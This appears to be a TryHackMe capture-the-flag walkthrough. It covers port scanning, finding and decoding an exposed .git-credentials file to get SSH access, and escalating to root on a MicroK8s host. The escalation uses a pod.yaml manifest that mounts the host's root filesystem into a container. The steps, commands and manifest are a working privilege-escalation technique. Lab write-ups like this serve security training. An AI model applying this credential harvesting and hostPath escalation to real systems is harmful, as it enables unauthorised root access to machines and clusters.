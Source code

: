 ## Steps:
1. Install Rustscan:
   - https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
2. Scanwith rustscanner:
  ``` $ rustscan IP ```
3. Nmap scan:
``` nmap -sV -sC -Pn -n -A -p (open ports) IP ```
4. Use dirsearch to find credentials (IP:31337/.git-credentials)
5. Download the credentials file and decode with online URL decoder.
6. Then got the ssh username and password.

### Privilege Escalation with kubernetes Microk8s:
```
1. After coonect with ssh
2. Check it command:
  $ microk8s
  $ microk8s kubectl get node -o yaml
3. Create a pod.yaml file and save it:
  $ nano pod.yaml
4. Apply this pod yaml file: 
  $ microk8s kubectl apply -f pod.yaml
5. Do root:
  $ microk8s kubectl exec -it hostmount /bin/bash
```
### Code in below (pod.yaml):
```
apiVersion: v1
kind: Pod
metadata:
  name: hostmount
spec:
  containers:
  - name: shell
    image: localhost:32000/bsnginx@sha256:59dafb4b06387083e51e2589773263ae301fe4285cfa4eb85ec5a3e70323d6bd
    command:
      - "bin/bash"
      - "-c"
      - "sleep 10000"
    volumeMounts:
      - name: root
        mountPath: /opt/root
  volumes:
  - name: root
    hostPath:
      path: /
      type: Directory
```
### References:
1. https://pulsesecurity.co.nz/advisories/microk8s-privilege-escalation
2. https://github.com/psechoPATH/Tryhackme-Writeup/blob/main/Frank_%26_Herby_make_an_app.md
